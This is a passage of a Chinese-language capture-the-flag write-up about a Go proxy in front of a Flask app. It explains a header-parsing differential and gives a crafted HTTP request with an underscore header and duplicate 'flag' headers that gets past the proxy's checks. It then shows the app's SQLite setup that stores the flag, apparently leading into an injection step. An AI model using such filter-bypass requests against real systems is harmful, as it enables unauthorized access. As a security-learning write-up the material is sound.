 ```go
        http.HandleFunc("/admin", func(w http.ResponseWriter, r *http.Request) {
                fmt.Fprintf(w, "Hello World!\n")
})
        log.Fatal(http.ListenAndServe(":80", nil))
}
```

存在两个路由`/`与`/admin`，其中/路由将我们的请求转发到`http://app:5000`
同时对`header`中的`X-pro-hacker`、`flag`、`Token`三个字段做了限制

要求`X-pro-hacker`为空，`flag`不能出现`gimme`，`Token`则是不能有`[6]string{"'", "\"", ")", "(", ")","="}`这些字符

在python的flask项目中则要求`request.headers.get("X-pro-hacker")=="Pro-hacker" and "gimme" in request.headers.get("flag")`，注意一个是`==`一个是`in`

这里则需要利用go与flask解析的差异性，

go当中只获取第一个header的内容，

在flask当中会把header当中的`_`替换为`-`，同时如果header双写会用`,`进行拼接

因此我们如果构造这样的请求，则可以绕过go端的校验

```
GET / HTTP/1.1
X_pro-hacker: Pro-hacker
flag: 
flag: gimme
```

同时在flask眼中以上内容最终会转换为

```
GET / HTTP/1.1
X-pro-hacker: Pro-hacker
flag: ,gimme
```

接下来我们来具体看看flask部分

##### app:

首先在里面会初始化sqlite数据库，将flag保存到了users与flag两张表

```py
def init_db():
    try: 
        conn = sqlite3.connect(os.path.join(os.path.realpath(os.curdir),'users.db'))
        cursor = conn.cursor()
        result = cursor.executescript(f"""
            CREATE TABLE IF NOT EXISTS users  (
                                                    username  TEXT, 
                                                    token TEXT
                                                );
            CREATE TABLE IF NOT EXISTS flag  (
                                                flag_is_here  TEXT
                                            );                                                  
            Delete from users;
            Delete from flag;
            INSERT INTO users values ('user','some_randomtoken'),
                                    ('admi','some_randomtoken'),
                                    (
                                        'admin',
                                        '{FLAG}'
                                    );
            INSERT INTO flag values ('{FLAG}');
            """)
        conn.commit()
        return True
    except:
```